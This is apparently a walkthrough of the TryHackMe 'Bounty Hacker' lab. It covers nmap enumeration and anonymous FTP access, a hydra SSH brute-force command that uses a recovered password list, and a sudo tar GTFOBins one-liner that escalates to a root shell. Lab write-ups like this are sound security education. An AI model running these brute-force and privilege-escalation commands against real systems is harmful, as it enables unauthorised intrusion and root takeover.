 ## Bounty Hunter TryHackMe
Room Link: https://tryhackme.com/room/cowboyhacker
### Enumeration 

After a quick nmap scan we get this result:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.119.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.91 seconds



```

From the results we see that FTP service running on Port 21, SSH on Port 22 and an http server on Port 80. 

On inspection of ftp I discovered that it allow anonymous login. After logging in I discovered two files locks.txt and task.txt.

Command to login into ftp

``ftp HOST_IP``

I encountered an issue with passive mode in ftp. To fix this simply enter the command ``passive`` to disable it. 
After that we can download the files we found using ``get``. 

In the ``locks.txt`` file we seem to have a list of passwords and in `task.txt` is a message that seems to reveal a potential username we can use to login to the machine using the running ssh service.

Contents of task.txt file:
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

To brute force and find the correct login we can use the tool hydra and the locks.txt file as a password list. 

Hydra Command:
Using lin as the username
``hydra -s 22 -l lin -P locks.txt 10.10.14.43 ssh -t 5``

After running the command were able to find the correct ssh password for lin. 
Using these credentials we can login into the machine as the user lin. 



### Escalation 


We are able to login succesfully as lin. Now its time to escalate privileges.

Using the ``sudo -l`` command we can see what commands we can run with super(root) rights. 

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar



```

From the above command we can see that we can run tar commands as root. Using [GTFOBINS](https://gtfobins.github.io/) we can find an exploit of the tar command to get root. 

```

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

```


After issuing the exploit we know have root. All the questions in the room can be solved using this information.


**DISCLAIMER**
As an ethical hacker, I must emphasize that the following writeup is intended for educational purposes only. My goal as a "white hat" hacker is to identify and expose vulnerabilities in computer systems and networks in order to improve security. It's important to note that unauthorized hacking or accessing of systems without permission is illegal and can result in severe legal consequences. I strongly advise against using the information provided in this writeup for any illegal or unethical purposes. As the author and publisher of this content, I do not condone any illegal activities and I am not responsible for any actions taken by readers. It is your responsibility as a reader to use this information ethically and legally. Let's use our technical skills to make the digital world a safer place



